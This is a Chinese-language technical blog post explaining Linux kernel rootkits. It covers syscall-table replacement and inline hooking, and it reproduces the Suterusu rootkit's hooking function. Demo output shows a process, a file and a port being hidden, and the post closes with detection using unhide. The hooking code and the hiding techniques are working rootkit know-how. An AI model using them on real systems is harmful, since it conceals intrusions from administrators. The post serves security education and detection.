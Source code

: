 ```yaml
---
title: Linux Rootkits
date: 2018-02-07 20:58:52
categories:
- Security
tags:
- rootkits
---
```


成功入侵系统后，入侵者一般会通过Rootkits工具来隐藏行踪，提供后门方便后续入侵访问。Rootkits一般会隐藏文件，隐藏进程，隐藏网络端口，过滤日志，总之会隐藏任何未授权行为，使入侵者的活动很难被检测到，入侵者可以持续掌控受害系统。

Rootkits的实现手段多种多样，从应用层到动态链接库层，再到内核层，甚至Hypervisor层，都有各种方法实现Rootkits。在应用层直接替换二进制文件如`ls`、`ps`、`top`、`netstat`等，在动态连接库层Hook库函数如`open()`、`opendir()`、`readdir()`、`unlink()`等，在内核层Hook系统调用及内核函数，更改内核行为。

<!-- more -->

![linux kernel attacks](http://7xtc3e.com1.z0.glb.clouddn.com/linux-rootkits/kernel-attacks.png)

从上图可以看出，进程执行流程中的每一步都有可能可能被利用来控制执行行为，本篇博客重点关注内核层。

内核层最简单的Hook方式是直接将系统调用替换：

``` c
saved_syscall = sys_call_table[SYSCALL_NUMBER];
sys_call_table[SYSCALL_NUMBER] = new_syscall;
```

在内核2.6版本之前，`sys_call_table`是导出符号，可直接引用，在新版内核，该符号不再导出，要替换系统调用，得先找到`sys_call_table`符号地址，方法有很多，如在System.map符号文件中查找；在/proc/kallsyms中查找；在内存中暴力搜索导出的系统调用如`sys_close`，`sctable[__NR_close] == (unsigned *) sys_close`，`sctable`即`sys_call_table`地址；在系统调用入口处`entry_SYSCALL_64`搜索`call`指令`ff 14 c5`，其操作数即`sys_call_table`地址。另外还要解决的一个问题是内存写保护，通过清理`CR0`寄存器的写保护位，使只读页可写，进而可更改`sys_call_table`。

另外一种Hook技术Inline Hooking，不但可以Hook系统调用，还可Hook内核函数，该方法直接修改目标函数指令，跳转到自定义函数。这种技术也是Rootkits [Suterusu](https://github.com/consen/suterusu)用到的Hook技术，Suterusu的Hook框架相当优美，很值得学习。

如在x64系统下，将目标函数指令替换成`mov rax, $addr; jmp rax`，这样执行到目标函数时，会先跳转到自定义函数地址`$addr`执行，执行过程中如需要调用原始目标函数，会将目标函数指令恢复成原始指令调用。

``` c
void hijack_start ( void *target, void *new )
{
    struct sym_hook *sa;
    unsigned char o_code[HIJACK_SIZE], n_code[HIJACK_SIZE];

    #if defined(_CONFIG_X86_)
    unsigned long o_cr0;

    // push $addr; ret
    memcpy(n_code, "\x68\x00\x00\x00\x00\xc3", HIJACK_SIZE);
    *(unsigned long *)&n_code[1] = (unsigned long)new;
    #elif defined(_CONFIG_X86_64_)
    unsigned long o_cr0;

    // mov rax, $addr; jmp rax
    memcpy(n_code, "\x48\xb8\x00\x00\x00\x00\x00\x00\x00\x00\xff\xe0", HIJACK_SIZE);
    *(unsigned long *)&n_code[2] = (unsigned long)new;
    #endif

    DEBUG_HOOK("Hooking function 0x%p with 0x%p\n", target, new);

    memcpy(o_code, target, HIJACK_SIZE);

    o_cr0 = disable_wp();
    memcpy(target, n_code, HIJACK_SIZE);
    restore_wp(o_cr0);

    sa = kmalloc(sizeof(*sa), GFP_KERNEL);
    if ( ! sa )
        return;

    sa->addr = target;
    memcpy(sa->o_code, o_code, HIJACK_SIZE);
    memcpy(sa->n_code, n_code, HIJACK_SIZE);

    list_add(&sa->list, &hooked_syms);
}
```

有了Hook框架，Rootkits的一些操作就很容易实现了。

- **隐藏进程**

Hook procfs中`/proc` file_operations的`iterate_shared()`，替换`filldir()`，隐藏指定PID进程。

```
$ ps -ef | grep Simple
14549     2011  3482  0 20:21 pts/4    00:00:00 python2.7 -m SimpleHTTPServer
14549     2014 27349  0 20:21 pts/9    00:00:00 grep Simple
$ ./sock 1 2011
Hiding PID 2011
$ ps -ef | grep Simple
14549     2036 27349  0 20:22 pts/9    00:00:00 grep Simple
$ ./sock 2 2011
Unhiding PID 2011
$ ps -ef | grep Simple
14549     2011  3482  0 20:21 pts/4    00:00:00 python2.7 -m SimpleHTTPServer
14549     2039 27349  0 20:22 pts/9    00:00:00 grep Simple
```

- **隐藏文件**

Hook当前文件系统file_operations的`iterate_shared()`，替换`filldir()`，隐藏指定文件和目录。

```
$ ls *.c
dlexec.c  hookrw.c  icmp.c  keylogger.c  main.c  module.c  serve.c  sock.c  suterusu.mod.c  util.c
$ ./sock 11 sock.c
Hiding file/dir sock.c
$ ls *.c
dlexec.c  hookrw.c  icmp.c  keylogger.c  main.c  module.c  serve.c  suterusu.mod.c  util.c
$ ./sock 12 sock.c
Unhiding file/dir sock.c
$ ls *.c
dlexec.c  hookrw.c  icmp.c  keylogger.c  main.c  module.c  serve.c  sock.c  suterusu.mod.c  util.c
```

- **隐藏端口**

以隐藏tcp4端口为例，Hook procfs中`/proc/net/tcp` seq_operations的`show()`，隐藏指定端口。

```
$ netstat -anp | grep 8000
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:8000                0.0.0.0:*                   LISTEN      2011/python2.7
$ ./sock 3 8000
Hiding TCPv4 port 8000
$ netstat -anp | grep 8000
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
$ ./sock 4 8000
Unhiding TCPv4 port 8000
$ netstat -anp | grep 8000
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:8000                0.0.0.0:*                   LISTEN      2011/python2.7
```

检测隐藏进程和端口，可以借助工具[unhide](http://www.unhide-forensics.info/?Linux)。

- **检测隐藏进程**

```
$ sudo unhide proc
Used options: 
[*]Searching for Hidden processes through /proc stat scanning

Found HIDDEN PID: 2011
```

unhide通过暴力枚举`/proc`下进程，检测隐藏进程。

- **检测隐藏端口**

```
$ sudo unhide-tcp -s
Used options: use_quick 
[*]Starting TCP checking

Found Hidden port that not appears in ss: 8000
[*]Starting UDP checking
```

unhide-tcp通过暴力枚举连接端口，检测隐藏端口。

参考：

- [Wikipedia Rootkit](https://en.wikipedia.org/wiki/Rootkit)
- [Subverting the Linux Kernel](http://eisen.io/slides/jeyu_linux_kernel_rootkits_osseu2017.pdf)
- [Horse Pill -- A New Kind of Linux Rootkit](https://www.blackhat.com/docs/us-16/materials/us-16-Leibowitz-Horse-Pill-A-New-Type-Of-Linux-Rootkit.pdf)
- [Linux Kernel Rootkits](https://www.la-samhna.de/library/rootkits/index.html)
- [Rootkits - Detection and Prevention](https://fenix.tecnico.ulisboa.pt/downloadFile/395137904119/dissertacao.pdf)
- [Suterusu](https://github.com/mncoppola/suterusu/)
- [Research Rootkit](https://github.com/NoviceLive/research-rootkit)
